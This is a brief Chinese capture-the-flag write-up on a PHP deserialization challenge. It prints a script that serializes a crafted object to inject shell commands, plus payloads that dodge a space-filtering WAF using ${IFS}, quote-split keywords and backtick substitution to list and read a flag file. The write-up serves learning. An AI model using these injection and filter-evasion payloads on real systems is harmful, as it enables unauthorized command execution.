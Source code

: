 考察序列化+waf绕过（感觉ctf从0开始确实好累啊）

首先看源码发现是反序列化绕过，于是可以伪造命令

```php
<?php

class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    
   
}
$a = new ease("ping",array('dir'));
$data = base64_encode(serialize($a));
echo($data);
?>
```

然后发现目录下有一个flag_1s_here的文件夹

更换pyload

```php
$a = new ease("ping",array('dir${IFS}fl""ag_1s_here'));
```

发现文件夹下有目标php文件

然后可以读取

```php
$a = new ease("ping",array('ca""t${IFS}`find`'));
```

注意这题waf连空格都过滤